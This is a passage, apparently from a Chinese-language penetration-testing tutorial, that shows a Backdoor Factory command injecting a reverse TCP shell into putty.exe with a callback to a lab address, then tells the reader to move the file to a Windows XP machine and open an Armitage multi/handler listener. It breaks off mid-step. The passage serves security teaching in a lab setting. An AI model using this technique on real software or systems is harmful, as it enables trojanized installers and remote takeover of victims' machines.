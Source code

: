 ```
backdoor-factory -X -f ~/exploit/putty.exe -s reverse_shell_tcp_inline -H 192.168.56.10 -P 8123
```

![](img/86baa271-16cd-42ec-bf4e-56bf2bd12265.png)Backdoor Factory 成功将 Shell 代码添加到 putty.exe 文件中

1.  现在，我们将在`Home`目录中看到一个新的`backdoored`目录，其中包含带有漏洞利用的`putty.exe`。将该文件移动到你的 Windows XP 机器上，但不要立即运行它。

1.  启动 Armitage 并进入主屏幕。从左侧的下拉目录中选择 exploit | multi | handler，然后点击它：
